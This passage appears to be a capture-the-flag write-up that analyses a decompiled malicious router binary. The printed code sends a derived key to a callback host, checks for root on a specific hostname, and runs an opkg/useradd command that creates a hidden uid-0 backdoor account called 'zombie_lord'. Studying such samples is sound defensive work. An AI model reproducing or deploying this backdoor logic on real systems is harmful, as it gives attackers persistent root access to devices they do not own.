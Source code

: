 Ghidra does a pretty good job of decompiling this function.  First, the function initializes a crypto library, as seen in these lines:

```c
memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
memcpy(acStack_3c,&DAT_00400d50,0x1b);
sVar1 = strlen(acStack_3c);
pvVar2 = malloc(sVar1 << 2);
init_crypto_lib(auStack_68,acStack_3c,pvVar2);
```

The third argument to the `init_crypto_lib` library is then used as an argument to `cURL`.

```c
curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
curl_easy_setopt(iVar3,0x271f,pvVar2);
curl_easy_perform(iVar3);
curl_easy_cleanup(iVar3);
```

The code then checks to make sure that the hostname of the router is <code>HSTERUNI-GW-01</code>, and that the user is root.  It returns -1 if either of these conditions are not met.

```c
pFVar4 = fopen("/proc/sys/kernel/hostname","r");
local_168 = 0;
memset(auStack_164,0,0xfc);
sVar1 = fread(&local_168,0x100,1,pFVar4);
fclose(pFVar4);
(&uStack_169)[sVar1] = 0;
iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
if (iVar3 == 0) {
    _Var5 = getuid();
    if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
        ...
    } else {
        uVar7 = 0xffffffff;
    }
} else {
    uVar7 = 0xffffffff;
}
```

If both of these conditions are met, the code then checks to see if the user `zombie_lord` exists.  If it does not, it installs the `shadow-useradd` package, and creates the user.  It sets the password to the same value as the crypto key that was passed to cURL earlier.

```c
ppVar6 = getpwnam((char *)&local_20);
if (ppVar6 == (passwd *)0x0) {
    system(
        "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
        );
}
pFVar4 = popen("passwd zombie_lord","w");
fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
pclose(pFVar4);
uVar7 = 0;
```

